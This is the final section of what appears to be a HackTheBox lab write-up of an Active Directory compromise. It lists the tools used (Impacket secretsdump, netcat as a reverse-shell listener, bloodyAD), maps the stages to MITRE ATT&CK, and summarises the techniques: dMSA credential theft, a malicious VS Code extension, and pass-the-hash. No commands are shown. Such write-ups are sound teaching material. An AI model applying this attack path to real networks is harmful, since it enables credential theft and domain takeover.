| `bloodyAD` | AD ACL enumeration, Recycle Bin restore, dMSA creation |
| `smbclient` | SMB share access, pass-the-hash, file transfer |
| `Impacket` (getTGT, getST, secretsdump, wmiexec) | Kerberos, credential dumping, remote execution |
| `faketime` | Presenting a consistent clock offset to Kerberos tools |
| `Volatility 3` | Memory-image analysis and registry hive extraction |
| `nc` (netcat) | Reverse-shell listener |

### Appendix C — MITRE ATT&CK mapping
| Tactic | Technique | Stage |
|--------|-----------|-------|
| Reconnaissance | T1046 Network Service Discovery | 5.0 |
| Persistence / Priv. Esc. | T1098 Account Manipulation | 5.1, 5.3 |
| Execution / Lateral Movement | T1059 / supply-chain via VS Code extension | 5.2 |
| Credential Access | T1558 Steal or Forge Kerberos Tickets (dMSA) | 5.3 |
| Credential Access | T1003.002/.004 SAM & LSA Secrets (from memory) | 5.4 |
| Collection | T1039 Data from Network Shared Drive (backups) | 5.4 |
| Lateral Movement | T1550.002 Pass the Hash | 5.5 |
| Execution | T1047 Windows Management Instrumentation | 5.5 |

---

## 8. Skills demonstrated

- **Active Directory attack paths** — ACL abuse, AD Recycle Bin reanimation, OU delegation abuse.
- **Modern Windows Server 2025 techniques** — BadSuccessor / dMSA credential theft (CVE-2025-53779), working around a hardened, patched KDC.
- **Supply-chain / code-execution primitives** — weaponising an auto-deployment pipeline via a malicious VS Code extension.
- **Kerberos tradecraft** — S4U2self, clock-skew handling with `faketime`, AES-vs-RC4 negotiation.
- **Memory forensics for offense** — Volatility 3 hive extraction and offline `secretsdump`.
- **Credential-access & lateral movement** — pass-the-hash to full domain takeover.
- **Reporting** — assumed-breach narrative, five mapped findings with remediation, MITRE ATT&CK.

---

<sub>Conducted in an authorized HackTheBox lab environment for educational purposes. Flags and recovered secrets redacted per HackTheBox policy.</sub>
